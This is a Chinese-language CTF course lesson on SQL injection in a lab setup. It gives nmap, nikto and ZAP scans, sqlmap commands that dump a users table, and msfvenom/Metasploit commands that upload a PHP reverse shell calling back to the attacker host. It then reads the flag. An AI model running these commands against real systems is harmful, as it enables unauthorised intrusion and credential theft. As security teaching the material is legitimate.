




# CTF入门课程：14：CTF夺旗-sql注入

在本节课中，我们将学习网络安全中的SQL注入漏洞。我们将通过利用SQL注入漏洞获取系统的用户名和密码，登录系统后台，寻找上传点，上传并执行WebShell，最终获取目标服务器的flag值。

## 概述

SQL注入漏洞是Web应用程序中一种常见的安全漏洞。攻击者通过构造特殊的输入，欺骗后端数据库执行非预期的SQL命令，从而窃取、篡改或删除数据库中的数据，甚至获取服务器控制权。本节课将演示一个完整的SQL注入攻击流程。

## SQL注入漏洞原理

上一节我们概述了课程目标，本节中我们来看看SQL注入漏洞的基本原理。

SQL注入攻击，指的是通过构建特定的输入作为参数传入到Web应用程序中。这些输入通常是SQL语句中的一些特殊组合。通过执行这些构造的SQL语句，攻击者可以执行其想要的操作。

SQL注入漏洞产生的原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统并执行了对应的操作。

以下是SQL注入产生的主要原因：
1.  不正当的类型处理。
2.  不安全的数据库配置。
3.  不合理的查询集处理。
4.  不当的错误处理。
5.  转义字符处理不当。
6.  多个提交处理不当。

本质上，漏洞的出现是因为程序允许用户输入，而系统没有对用户输入的恶意字符进行过滤或过滤不严格。

## 实验环境搭建

在开始实战之前，我们先介绍一下本次课程使用的实验环境。

*   **攻击机**：IP地址为 `192.168.253.12`，系统为Kali Linux。
*   **靶机**：IP地址为 `192.168.253.15`。

我们的目标是通过渗透测试，获取靶机的root权限并找到flag值。

## 信息收集

无论在日常工作还是CTF比赛中，第一步都是对目标进行信息收集。我们需要探测靶机开放的服务、版本信息以及其他可能暴露的敏感信息。

首先，我们使用Nmap探测靶机开放的服务及版本信息。

```bash
nmap -sV 192.168.253.15
```

接下来，我们使用更全面的参数进行深度扫描，以获取更多信息。

```bash
nmap -T4 -A -v 192.168.253.15
```

除了Nmap，我们还可以使用其他工具针对特定服务进行探测。例如，使用Nikto扫描HTTP服务的敏感信息。



```bash
nikto -host http://192.168.253.15
```

扫描完成后，我们需要对结果进行分析。从Nikto的扫描结果中，我们发现了一个后台登录页面：`/admin/login.php`。



## 漏洞扫描与确认

发现后台登录页面后，我们尝试使用常见弱口令（如admin/admin）登录，但未能成功。这表明我们需要寻找其他途径进入系统。

下一步是对目标系统进行漏洞扫描。我们使用Kali Linux集成的Web漏洞扫描器OWASP ZAP。

1.  打开OWASP ZAP。
2.  在 `Quick Start` 标签页输入靶机地址 `http://192.168.253.15`。
3.  点击 `Attack` 开始主动扫描。

扫描完成后，ZAP会列出发现的安全问题。我们重点关注标记为 **High** 的风险，其中包含了SQL注入漏洞。

## 利用SQL注入获取凭证

确认存在SQL注入漏洞后，我们使用自动化工具SQLmap进行利用。目标是获取数据库中的管理员用户名和密码。

首先，测试该注入点是否可用。

```bash
sqlmap -u “http://192.168.253.15/vuln_page.php?id=1”
```

确认存在注入点后，我们开始获取数据。

第一步，列出所有数据库名。

```bash
sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” --dbs
```

假设我们发现了数据库 `portal_block`。接下来，列出该数据库中的所有表。

```bash
sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” -D portal_block --tables
```

我们发现了用户表 `users`。接着，列出该表中的所有列（字段）。

```bash
sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” -D portal_block -T users --columns
```

假设表中存在 `login` 和 `password` 列。最后，我们dump（导出）这两列的数据。

```bash
sqlmap -u “http://192.168.253.15/vuln_page.php?id=1” -D portal_block -T users -C “login,password” --dump
```

成功获取到用户名 `admin` 和其密码的哈希值（例如MD5）。使用在线工具或本地破解得到明文密码 `P4SSW0RD`。

## 登录后台与权限提升

获取凭证后，我们访问之前发现的登录页面 `/admin/login.php`，使用用户名 `admin` 和密码 `P4SSW0RD` 成功登录系统后台。

登录后台后，我们的下一步目标是获取服务器的shell权限。通常需要寻找文件上传功能，上传一个WebShell。

首先，我们在攻击机（Kali）上生成一个PHP的反弹shell。

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```

将生成的PHP代码保存为一个文件，例如 `shell.php`。

接着，在Metasploit框架中设置监听，等待靶机连接。

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
exploit
```



然后，在网站后台找到文件上传点，将 `shell.php` 上传到服务器可访问的目录。

访问上传的WebShell文件（如 `http://192.168.253.15/uploads/shell.php`），触发连接。此时，在Metasploit中会成功接收到一个meterpreter会话。

## 寻找并获取Flag



获得meterpreter会话后，我们就拥有了对靶机的一定控制权。接下来，我们需要寻找flag文件。

在CTF比赛中，flag通常位于特定目录或名为 `flag`、`flag.txt` 的文件中。我们可以使用以下命令进行查找。

```bash
# 切换到交互式shell
shell
# 查找可能包含flag的文件
find / -name “*flag*” 2>/dev/null
find / -name “*.txt” | xargs grep -l “flag{” 2>/dev/null
```

假设在 `/root` 目录下找到 `flag.txt` 文件，使用 `cat` 命令读取其内容，即可获得本次挑战的flag。

```bash
cat /root/flag.txt
```

## 总结

本节课中，我们一起学习了SQL注入漏洞的完整利用流程：
1.  **信息收集**：使用Nmap、Nikto等工具探测目标。
2.  **漏洞发现**：使用OWASP ZAP扫描Web漏洞，确认SQL注入点。
3.  **漏洞利用**：使用SQLmap自动化注入，获取后台管理员凭证。
4.  **权限获取**：登录后台，上传WebShell，通过Metasploit获取反向连接。
5.  **目标达成**：在服务器上寻找并读取flag文件。

这个流程涵盖了从外网信息收集到最终获取权限的常见渗透测试步骤，是CTF比赛和基础安全评估中的重要技能。请务必在合法授权的环境中进行练习。